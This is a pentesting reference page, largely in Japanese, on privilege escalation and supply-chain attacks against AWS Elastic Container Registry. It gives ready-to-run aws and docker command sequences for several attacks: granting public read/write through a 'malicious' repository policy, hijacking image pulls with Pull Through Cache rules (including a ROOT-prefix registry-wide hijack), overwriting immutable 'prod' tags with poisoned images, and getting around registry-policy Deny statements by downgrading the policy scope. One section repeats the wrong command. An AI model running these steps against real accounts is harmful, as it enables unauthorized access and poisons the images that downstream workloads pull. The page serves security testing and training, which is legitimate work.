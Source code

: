 # AWS - ECR Privesc

{{#include ../../../../banners/hacktricks-training.md}}

## ECR

### `ecr:GetAuthorizationToken`,`ecr:BatchGetImage`

攻撃者が **`ecr:GetAuthorizationToken`** と **`ecr:BatchGetImage`** を持っていると、ECR にログインしてイメージをダウンロードできます。

For more info on how to download images:

{{#ref}}
../../aws-post-exploitation/aws-ecr-post-exploitation/README.md
{{#endref}}

**Potential Impact:** トラフィック内の機密情報を傍受することで間接的な privesc を引き起こす可能性があります。

### `ecr:GetAuthorizationToken`, `ecr:BatchCheckLayerAvailability`, `ecr:CompleteLayerUpload`, `ecr:InitiateLayerUpload`, `ecr:PutImage`, `ecr:UploadLayerPart`

これらすべての権限を持つ攻撃者は **ECR にログインしてイメージをアップロードすることができます**。これは、これらのイメージが使用されている他の環境へ権限を昇格させるのに有用です。

To learn how to upload a new image/update one, check:

{{#ref}}
../../aws-services/aws-eks-enum.md
{{#endref}}

### `ecr-public:GetAuthorizationToken`, `ecr-public:BatchCheckLayerAvailability, ecr-public:CompleteLayerUpload`, `ecr-public:InitiateLayerUpload, ecr-public:PutImage`, `ecr-public:UploadLayerPart`

前のセクションと同様ですが、パブリックリポジトリ向けです。

### `ecr:SetRepositoryPolicy`

この権限を持つ攻撃者は、**repository** の **policy** を **変更** して自分自身（または全員）に **読み取り/書き込みアクセス** を付与することができます。\
例えば、以下の例では読み取りアクセスが全員に付与されています。
```bash
aws ecr set-repository-policy \
--repository-name <repo_name> \
--policy-text file://my-policy.json
```
`my-policy.json` の内容:
```json
{
"Version": "2008-10-17",
"Statement": [
{
"Sid": "allow public pull",
"Effect": "Allow",
"Principal": "*",
"Action": [
"ecr:BatchCheckLayerAvailability",
"ecr:BatchGetImage",
"ecr:GetDownloadUrlForLayer"
]
}
]
}
```
### `ecr-public:SetRepositoryPolicy`

前のセクションと同様ですが、パブリックリポジトリ向けです。\ 攻撃者は ECR Public repository の **リポジトリポリシーを変更** して、不正なパブリックアクセスを付与したり、権限を昇格させたりできます。
```bash
# Create a JSON file with the malicious public repository policy
echo '{
"Version": "2008-10-17",
"Statement": [
{
"Sid": "MaliciousPublicRepoPolicy",
"Effect": "Allow",
"Principal": "*",
"Action": [
"ecr-public:GetDownloadUrlForLayer",
"ecr-public:BatchGetImage",
"ecr-public:BatchCheckLayerAvailability",
"ecr-public:PutImage",
"ecr-public:InitiateLayerUpload",
"ecr-public:UploadLayerPart",
"ecr-public:CompleteLayerUpload",
"ecr-public:DeleteRepositoryPolicy"
]
}
]
}' > malicious_public_repo_policy.json

# Apply the malicious public repository policy to the ECR Public repository
aws ecr-public set-repository-policy --repository-name your-ecr-public-repo-name --policy-text file://malicious_public_repo_policy.json
```
**潜在的影響**: ECR Public リポジトリへの未承認の公開アクセスにより、任意のユーザーがイメージを push、pull、または削除できるようになります。

### `ecr:PutRegistryPolicy`

この権限を持つ攻撃者は、**レジストリポリシー**を**変更**して、自分自身や自分のアカウント（あるいは全員）に**読み取り/書き込みアクセス**を付与することができます。
```bash
aws ecr set-repository-policy \
--repository-name <repo_name> \
--policy-text file://my-policy.json
```
{{#include ../../../../banners/hacktricks-training.md}}





### ecr:CreatePullThroughCacheRule

ECR Pull Through Cache (PTC) ルールを悪用して、攻撃者が制御する上流名前空間を信頼されたプライベートECRプレフィックスにマッピングします。これにより、プライベートECRからプルするワークロードは、プライベートECRへ何も push していなくても透過的に攻撃者のイメージを受け取ります。

- Required perms: ecr:CreatePullThroughCacheRule, ecr:DescribePullThroughCacheRules, ecr:DeletePullThroughCacheRule. If using ECR Public upstream: ecr-public:* to create/push to the public repo.
- Tested upstream: public.ecr.aws

Steps (example):

1. ECR Public に攻撃者のイメージを用意
# Get your ECR Public alias with: aws ecr-public describe-registries --region us-east-1
docker login public.ecr.aws/<public_alias>
docker build -t public.ecr.aws/<public_alias>/hacktricks-ptc-demo:ptc-test .
docker push public.ecr.aws/<public_alias>/hacktricks-ptc-demo:ptc-test

2. プライベートECRでPTCルールを作成し、信頼されたプレフィックスをパブリックレジストリにマップする
aws ecr create-pull-through-cache-rule --region us-east-2 --ecr-repository-prefix ptc --upstream-registry-url public.ecr.aws

3. プライベートECR経由で攻撃者イメージをプルする（プライベートECRへの push は行われていない）
docker login <account_id>.dkr.ecr.us-east-2.amazonaws.com
docker pull <account_id>.dkr.ecr.us-east-2.amazonaws.com/ptc/<public_alias>/hacktricks-ptc-demo:ptc-test
docker run --rm <account_id>.dkr.ecr.us-east-2.amazonaws.com/ptc/<public_alias>/hacktricks-ptc-demo:ptc-test

Potential Impact: Supply-chain compromise by hijacking internal image names under the chosen prefix. Any workload pulling images from the private ECR using that prefix will receive attacker-controlled content.

### `ecr:PutImageTagMutability`

この権限を悪用して、タグの不変性が設定されたリポジトリを可変に切り替え、latest、stable、prod などの信頼されたタグを攻撃者が制御するコンテンツで上書きできます。

- Required perms: `ecr:PutImageTagMutability` plus push capabilities (`ecr:GetAuthorizationToken`, `ecr:InitiateLayerUpload`, `ecr:UploadLayerPart`, `ecr:CompleteLayerUpload`, `ecr:PutImage`).
- Impact: Supply-chain compromise by silently replacing immutable tags without changing tag names.

Steps (example):

<details>
<summary>不変タグを可変に切り替えて汚染する</summary>
```bash
REGION=us-east-1
REPO=ht-immutable-demo-$RANDOM
aws ecr create-repository --region $REGION --repository-name $REPO --image-tag-mutability IMMUTABLE
acct=$(aws sts get-caller-identity --query Account --output text)
aws ecr get-login-password --region $REGION | docker login --username AWS --password-stdin ${acct}.dkr.ecr.${REGION}.amazonaws.com
# Build and push initial trusted tag
printf 'FROM alpine:3.19\nCMD echo V1\n' > Dockerfile && docker build -t ${acct}.dkr.ecr.${REGION}.amazonaws.com/${REPO}:prod . && docker push ${acct}.dkr.ecr.${REGION}.amazonaws.com/${REPO}:prod
# Attempt overwrite while IMMUTABLE (should fail)
printf 'FROM alpine:3.19\nCMD echo V2\n' > Dockerfile && docker build -t ${acct}.dkr.ecr.${REGION}.amazonaws.com/${REPO}:prod . && docker push ${acct}.dkr.ecr.${REGION}.amazonaws.com/${REPO}:prod
# Flip to MUTABLE and overwrite
aws ecr put-image-tag-mutability --region $REGION --repository-name $REPO --image-tag-mutability MUTABLE
docker push ${acct}.dkr.ecr.${REGION}.amazonaws.com/${REPO}:prod
# Validate consumers pulling by tag now get the poisoned image (prints V2)
docker run --rm ${acct}.dkr.ecr.${REGION}.amazonaws.com/${REPO}:prod
```
</details>


#### ROOT Pull-Through Cache ルールによるグローバルレジストリハイジャック

特別な `ecrRepositoryPrefix=ROOT` を使って Pull-Through Cache (PTC) ルールを作成し、プライベート ECR レジストリのルートを上流のパブリックレジストリ（例: ECR Public）にマッピングします。プライベートレジストリに存在しないリポジトリへの pull は上流から透過的に提供され、プライベート ECR に push しなくてもサプライチェーンハイジャックが可能になります。

- 必要な権限: `ecr:CreatePullThroughCacheRule`, `ecr:DescribePullThroughCacheRules`, `ecr:DeletePullThroughCacheRule`, `ecr:GetAuthorizationToken`.
- 影響: Pulls to `<account>.dkr.ecr.<region>.amazonaws.com/<any-existing-upstream-path>:<tag>` succeed and auto-create private repos sourced from upstream.

> 注: `ROOT` ルールでは `--upstream-repository-prefix` を省略してください。指定するとバリデーションエラーになります。

<details>
<summary>デモ (us-east-1, upstream public.ecr.aws)</summary>
```bash
REGION=us-east-1
ACCT=$(aws sts get-caller-identity --query Account --output text)

# 1) Create ROOT PTC rule mapping to ECR Public (no upstream prefix)
aws ecr create-pull-through-cache-rule \
--region "$REGION" \
--ecr-repository-prefix ROOT \
--upstream-registry-url public.ecr.aws

# 2) Authenticate to private ECR and pull via root path (triggers caching & auto repo creation)
aws ecr get-login-password --region "$REGION" | docker login --username AWS --password-stdin ${ACCT}.dkr.ecr.${REGION}.amazonaws.com

# Example using an official mirror path hosted in ECR Public
# (public.ecr.aws/docker/library/alpine:latest)
docker pull ${ACCT}.dkr.ecr.${REGION}.amazonaws.com/docker/library/alpine:latest

# 3) Verify repo and image now exist without any push
aws ecr describe-repositories --region "$REGION" \
--query "repositories[?repositoryName==docker/library/alpine]"
aws ecr list-images --region "$REGION" --repository-name docker/library/alpine --filter tagStatus=TAGGED

# 4) Cleanup
aws ecr delete-pull-through-cache-rule --region "$REGION" --ecr-repository-prefix ROOT
aws ecr delete-repository --region "$REGION" --repository-name docker/library/alpine --force || true
```
</details>

### `ecr:PutAccountSetting` (レジストリポリシーの Deny を回避するために `REGISTRY_POLICY_SCOPE` をダウングレード)

`ecr:PutAccountSetting` を悪用してレジストリポリシーの scope を `V2`（全ての ECR アクションに適用されるポリシー）から `V1`（`CreateRepository`, `ReplicateImage`, `BatchImportUpstreamImage` のみ適用されるポリシー）に切り替えます。制限的なレジストリポリシーの Deny により `CreatePullThroughCacheRule` のようなアクションがブロックされている場合、`V1` にダウングレードするとその適用が解除され、identity‑policy の Allow が有効になります。

- 必要な権限: `ecr:PutAccountSetting`, `ecr:PutRegistryPolicy`, `ecr:GetRegistryPolicy`, `ecr:CreatePullThroughCacheRule`, `ecr:DescribePullThroughCacheRules`, `ecr:DeletePullThroughCacheRule`.
- 影響: 一時的に scope を `V1` に設定することで、レジストリポリシーの Deny により以前ブロックされていた ECR アクション（例: PTC ルールの作成）を実行できるようになる。

Steps (example):

<details>
<summary>CreatePullThroughCacheRule に対するレジストリポリシーの Deny を V1 に切り替えて回避する</summary>
```bash
REGION=us-east-1
ACCT=$(aws sts get-caller-identity --query Account --output text)

# 0) Snapshot current scope/policy (for restore)
aws ecr get-account-setting --name REGISTRY_POLICY_SCOPE --region $REGION || true
aws ecr get-registry-policy --region $REGION > /tmp/orig-registry-policy.json 2>/dev/null || echo '{}' > /tmp/orig-registry-policy.json

# 1) Ensure V2 and set a registry policy Deny for CreatePullThroughCacheRule
aws ecr put-account-setting --name REGISTRY_POLICY_SCOPE --value V2 --region $REGION
cat > /tmp/deny-ptc.json <<'JSON'
{
"Version": "2012-10-17",
"Statement": [
{
"Sid": "DenyPTCAll",
"Effect": "Deny",
"Principal": "*",
"Action": ["ecr:CreatePullThroughCacheRule"],
"Resource": "*"
}
]
}
JSON
aws ecr put-registry-policy --policy-text file:///tmp/deny-ptc.json --region $REGION

# 2) Attempt to create a PTC rule (should FAIL under V2 due to Deny)
set +e
aws ecr create-pull-through-cache-rule \
--region $REGION \
--ecr-repository-prefix ptc-deny-test \
--upstream-registry-url public.ecr.aws
RC=$?
set -e
if [ "$RC" -eq 0 ]; then echo "UNEXPECTED: rule creation succeeded under V2 deny"; fi

# 3) Downgrade scope to V1 and retry (should SUCCEED now)
aws ecr put-account-setting --name REGISTRY_POLICY_SCOPE --value V1 --region $REGION
aws ecr create-pull-through-cache-rule \
--region $REGION \
--ecr-repository-prefix ptc-deny-test \
--upstream-registry-url public.ecr.aws

# 4) Verify rule exists
aws ecr describe-pull-through-cache-rules --region $REGION \
--query "pullThroughCacheRules[?ecrRepositoryPrefix=='ptc-deny-test']"

# 5) Cleanup and restore
aws ecr delete-pull-through-cache-rule --region $REGION --ecr-repository-prefix ptc-deny-test || true
if jq -e '.registryPolicyText' /tmp/orig-registry-policy.json >/dev/null 2>&1; then
jq -r '.registryPolicyText' /tmp/orig-registry-policy.json > /tmp/_orig.txt
aws ecr put-registry-policy --region $REGION --policy-text file:///tmp/_orig.txt
else
aws ecr delete-registry-policy --region $REGION || true
fi
aws ecr put-account-setting --name REGISTRY_POLICY_SCOPE --value V2 --region $REGION
```
</details>
